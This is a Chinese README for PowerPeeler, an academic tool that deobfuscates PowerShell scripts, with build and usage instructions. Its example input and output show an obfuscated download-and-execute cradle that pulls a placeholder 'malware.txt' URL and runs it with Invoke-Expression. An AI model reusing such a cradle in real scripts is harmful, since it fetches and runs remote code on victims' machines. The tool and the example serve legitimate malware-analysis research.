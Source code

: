 # PowerPeeler

>一款通用且精确的PowerShell脚本反混淆器



### 相关资料

- 会议版论文：in coming
- 完整版论文：[arxiv](https://arxiv.org/abs/2406.04027)



### 使用方法

1. 编译环境需求

   - 基本环境：参见[PowerShell官方编译指南](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. 运行环境

   - PSScriptAnalyzer（可选，用于代码格式化）
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)（可选，用于动静态结合反混淆）

3. 工具获取

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   或

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. 沙箱编译

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. 工具使用

   1. 切换目录，防止部分恶意脚本污染当前目录：```cd sandbox```
   2. 进入特殊pwsh环境：```../pwsh```
   3. 在特殊pwsh环境中执行反混淆脚本

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath 输入文件位置 --OutputPath 输出文件位置 [-cmd] [-log]
   ```
   ​	```-st --SettingType```	反混淆模式，有几种预设，可自行修改代码
   ​	```-ip --InputPath```	输入文件位置
   ​	```-op --OutputPath```	输出文件位置
   ​	```-cmd --IsCmd```	cmd一句话模式
   ​	```-log --SaveLog```	保存日志，可用于反混淆结构查看器



### 使用示例

> samples/unittest.ps1中包含了多种不同类型的测试样例，可参阅

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### 反混淆结构查看器

> 参考二进制反混淆的层级结构查看器

由于采用了直接变量替换，直接采用反混淆脚本存在部分反混淆过度的问题。为方便用户自行确定反混淆边界，```Deobfuscation/```下提供了一个简易的反混淆结构查看器。



### 引用格式

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```




